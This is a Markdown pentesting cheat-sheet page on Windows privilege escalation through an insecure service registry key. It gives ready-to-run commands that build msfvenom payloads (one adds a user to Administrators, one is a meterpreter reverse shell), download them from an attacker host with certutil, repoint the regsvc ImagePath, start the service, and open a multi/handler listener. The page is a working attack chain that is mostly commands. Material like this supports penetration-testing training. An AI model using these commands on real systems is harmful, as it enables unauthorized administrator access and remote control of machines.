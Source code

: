 ```yaml
---
legal-banner: true
---
```


### **Exploiting Insecure Service with Metasploit**

1. Create a binary to add a user to the Administrators group with msfvenom  
    `msfvenom -p windows/x64/exec CMD='net localgroup Administrators [USERNAME] /add' -f exe > hackfast.exe`  
    ![](../../../../img/Windows-Environment/118.png)

2. Host the binary using a Python HTTP server and transfer it to the target machine with certutil  
   `certutil -urlcache -f http://[IP-ADDRESS]:8001/hackfast.exe hackfast.exe`  
    ![](../../../../img/Windows-Environment/119.png)

3. Change the ImagePath on the regsvc service registry key to point to the malicious executable  
   `reg add "HKLM\SYSTEM\CurrentControlSet\services\regsvc" /v ImagePath /t REG_EXPAND_SZ /d c:\temp\hackfast.exe /f`  
    ![](../../../../img/Windows-Environment/120.png)

    **Note:** Verify if ImagePath was set properly with the following command:  
   `reg query "HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc"`

4. Run `net start regsvc` on the target to execute the exploit  
    ![](../../../../img/Windows-Environment/121.png)

    **Note:** If `SeShutdownPrivilege` is enabled, reboot to have the service restart automatically `shutdown /r /t 0`

### **Generating Reverse Shell with msfvenom**

1. Create a reverse shell binary with msfvenom  
   `msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=[ATTACKER-IP] LPORT=[PORT] -o hackfast.exe`  
    ![](../../../../img/Windows-Environment/122.png)

2. Host the binary using a Python HTTP server and transfer it to the target machine with certutil  
   `certutil -urlcache -f http://[IP-ADDRESS]:8001/hackfast.exe hackfast.exe`  
    ![](../../../../img/Windows-Environment/123.png)

3. Change the ImagePath on the regsvc service registry key to point to the malicious executable  
   `reg add "HKLM\SYSTEM\CurrentControlSet\services\regsvc" /v ImagePath /t REG_EXPAND_SZ /d c:\temp\hackfast.exe /f`  
    ![](../../../../img/Windows-Environment/124.png)
   **Note:** Verify if ImagePath was set properly with the following command:
   `reg query "HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc"`

4. Start a listener on the attacking machine  
   `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT [PORT]; run"`  
    ![](../../../../img/Windows-Environment/125.png)

5. Run `net start regsvc` on the target machine to execute the exploit  
    ![](../../../../img/Windows-Environment/126.png)
   **Note:** If `SeShutdownPrivilege` is enabled, reboot to have the service restart automatically  
   `shutdown /r /t 0`